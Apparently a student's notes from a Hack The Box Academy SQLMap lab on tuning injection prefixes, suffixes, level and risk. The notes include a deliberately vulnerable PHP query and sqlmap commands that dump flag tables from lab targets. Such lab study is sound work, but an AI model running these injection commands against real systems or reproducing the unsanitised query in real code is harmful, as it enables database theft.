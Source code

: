 
https://academy.hackthebox.com/module/58/section/526

SQLMap should run out of the box with the provided target details. Nevertheless, there are options to fine-tune the SQLi injection attempts to help SQLMap in the detection phase. Every payload sent to the target consists of:

- vector (e.g., `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.
    
- boundaries (e.g. `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.

## Prefix/Suffix
```bash
sqlmap -u http://83.136.254.73:47639/case5.php?id=1" --prefix="%'))" --suffix="-- -"
```


```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```



## Level/Risk
possibility for users to use bigger sets of boundaries and vectors, already incorporated into the SQLMap.

- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

```shell-session
AhmaDb0x@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5
```


###### You can use the option '-T flag5' to only dump data from the needed table. You can use the '--no-cast' flag to ensure you get the correct content. You may also, try running the command a few times to ensure you captured the content correctly.

```bash
sqlmap -u "http://83.136.254.73:47639/case5.php?id=1" --batch --risk=3 --level=5 -T flag6 --dump --no-cast

```

flag6
'`)'

Let's assume the website expects queries like:
```bash
SELECT * FROM users WHERE id = (1);

```

```bash
sqlmap -u "http://83.136.254.73:47639/case6.php?col=id" --prefix="%'))"
```

```bash
SELECT * FROM users WHERE id = (%'))1 OR 1=1);

```

```
 sqlmap -u "http://83.136.254.73:47639/case6.php?col=id" --prefix="`)" --batch --risk=3 --level=5 -T flag6 --dump 
 ```

```bash
sqlmap -u "http://83.136.254.73:47639/case6.php?col=id" --prefix="\`)" --batch --risk=3 --level=5 -T flag6 --dump

```

```bash
sqlmap -u "http://83.136.254.73:47639/case6.php?col=id" --prefix='`)' --batch --risk=3 --level=5 -T flag6 --dump

```

```bash
sqlmap -u "http://83.136.254.73:47639/case7.php?id=1" --technique=U --union-cols=5  --dump --batch -T flag7 --dump


```

```bash
sqlmap -u "http://83.136.254.73:47639/case7.php?id=1" --technique=U --union-cols=5 --batch --dbs

```

https://academy.hackthebox.com/module/58/section/526